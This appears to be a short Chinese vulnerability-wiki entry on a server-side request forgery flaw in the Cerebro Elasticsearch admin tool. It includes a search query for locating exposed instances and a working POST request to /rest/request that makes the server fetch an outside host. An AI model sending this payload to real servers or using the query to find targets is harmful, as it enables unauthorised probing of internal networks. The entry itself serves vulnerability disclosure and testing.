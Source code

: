 # Cerebro request SSRF漏洞

## 漏洞描述

Cerebro是使用Scala、Play Framework、AngularJS和Bootstrap构建的开源的基于Elasticsearch Web可视化管理工具。您可以通过Cerebro对集群进行web可视化管理，如执行rest请求、修改Elasticsearch配置、监控实时的磁盘，集群负载，内存使用率等。其中某功能存在SSRF漏洞，攻击者通过发送特定的请求包可以探测内网信息

## 漏洞影响

<a-checkbox checked>Cerebro</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="Cerebro"</a-checkbox></br>

## 漏洞复现

主页面

![img](/assets/PeiQi-Wiki/img/1643621805930-c98b1f7a-e9b0-452d-b4b1-0ac1e99f7084.png)

发送请求包

```go
POST /rest/request

{"method":"GET","data":"","path":"robots.txt","host":"https://www.baidu.com"}
```

![img](/assets/PeiQi-Wiki/img/1643622217572-65a71fc9-e87d-4c76-8848-515c854ea959.png)
